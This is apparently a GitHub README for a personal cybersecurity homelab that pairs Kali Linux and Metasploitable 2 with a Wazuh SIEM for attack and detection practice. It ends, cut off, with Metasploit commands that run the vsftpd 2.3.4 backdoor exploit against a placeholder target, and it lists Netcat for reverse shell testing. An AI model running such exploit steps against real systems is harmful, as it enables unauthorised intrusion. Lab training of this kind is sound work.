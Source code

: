 # 🏠 Cybersecurity Homelab Project

This is a self-hosted cybersecurity homelab built to simulate offensive and defensive scenarios in a safe, isolated environment using VirtualBox and open-source tools. It demonstrates practical skills in system administration, red/blue teaming, network traffic monitoring, and log analysis.

---

## 🔧 Project Evolution

Originally, the lab started with **Security Onion** and a separate **Analyst VM** for packet analysis and dashboards. However, to gain more flexibility and transparency, I switched to **Wazuh**, which integrates seamlessly with **Elasticsearch** and **Kibana** to provide a modular SIEM platform for threat detection and analysis.

---

## 💻 Current Lab Setup

### Host Machine
- Device: 2019 MacBook Pro  
- OS: macOS Sequoia 15.5  
- Specs: 2.4 GHz Quad-Core Intel Core i5, 8 GB RAM, 250 GB SSD  
- Virtualization: VirtualBox (latest version)  

### Virtual Machines
- Kali Linux (attacker) — Metasploit, Nmap, Netcat  
- Metasploitable 2 (vulnerable target) — For exploitation practice  
- Wazuh Server with Elasticsearch and Kibana — For detection and monitoring *(Note: Wazuh web interface setup is still under troubleshooting)*  

### Network Topology
- Adapter 1 (Host-only): Internal VM communication  
- Adapter 2 (NAT): Internet access for Kali and Wazuh updates  
- All traffic between attacker and target monitored by Wazuh  

---

## ⚙️ Tools & Technologies

### Offensive
- Metasploit Framework  
- Nmap (host discovery and vulnerability scanning)  
- Netcat (reverse shell testing)  

### Defensive
- Wazuh (SIEM agent and manager)  
- Filebeat (log shipping to Elasticsearch)  
- Elasticsearch + Kibana (search and visualization)  
- Custom Bash scripts (connection monitoring)  

---

## 🔍 Sample Attack Workflow

### Exploit: vsftpd 2.3.4 Backdoor
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target-ip>
run
